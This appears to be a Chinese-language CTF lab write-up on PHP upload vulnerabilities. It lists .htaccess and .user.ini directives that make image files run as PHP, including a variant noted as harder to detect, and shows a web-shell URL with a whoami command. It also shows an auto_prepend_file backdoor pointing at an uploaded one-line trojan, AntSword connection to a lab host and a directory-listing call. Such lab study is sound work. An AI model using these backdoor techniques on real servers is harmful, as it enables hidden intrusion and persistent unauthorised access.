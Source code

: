 http://localhost:8003/index.jsp?pass=password&cmd=whoami

### 2、 .htaccess文件解析漏洞

php.ini是php的一个全局配置文件，对整个web服务起作用；而.user.ini和.htaccess一样是目录的配置文件。这里我们可以把.user.ini看作是用户自定义的一个php.ini，并且可以利用这个文件来构造后门和隐藏后门。

.user.ini。它比.htaccess用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。

第一种、虽然好用，但是会误伤其他正常文件，容易被发现

> <IfModule mime_module>
> AddHandler php5-script .gif          #在当前目录下，只针对gif文件会解析成Php代码执行
> SetHandler application/x-httpd-php    #在当前目录下，所有文件都会被解析成php代码执行
> </IfModule>

第二种、精确控制能被解析成php代码的文件，不容易被发现

> <FilesMatch "evil.gif">
> SetHandler application/x-httpd-php   #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
> AddHandler php5-script .gif          #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
> </FilesMatch>

第三种、同1没太大区别

> <IfModule mime_module>
> AddType application/x-httpd-php .gif
> </IfModule>

上传.htaccess，需要将文件格式改为 image/jpeg

![image-20240325201351205](./images/image-20240325201351205.png)

![image-20240325201413233](./images/image-20240325201413233.png)

上传.htaccess中识别的文件

蚁剑连接，连接的是上传文件所在的位置 

例：http://789b3aeb-6590-4b6a-89bb-17c389233df7.node4.buuoj.cn:81/upload/ff435120073c8f309f3001ca17632671/flag.jpg

对.htacccess进行过滤时

### 3、 .user.ini(局限在当前目录下有php文件)

GIF89a 

auto_prepend_file=b.gif //文件名为之前上传的一句话木马文件

### 特殊情况

会出现蚁剑连接后没有权限读取文件的情况，使用刚才上传的一句话木马进行文件读取

print_r(scandir('.'));读取当前文件夹下的所有文件
